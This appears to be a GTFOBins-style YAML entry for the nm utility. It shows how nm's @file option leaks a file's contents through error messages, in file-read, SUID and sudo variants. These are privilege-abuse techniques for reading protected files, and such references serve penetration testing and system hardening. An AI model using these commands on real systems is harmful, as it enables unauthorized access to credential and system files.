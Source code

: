```yaml
---
description: The file content is treated as command line options and disclosed through error messages, so this is not suitable for reading arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nm @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nm @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nm @$LFILE
---
```

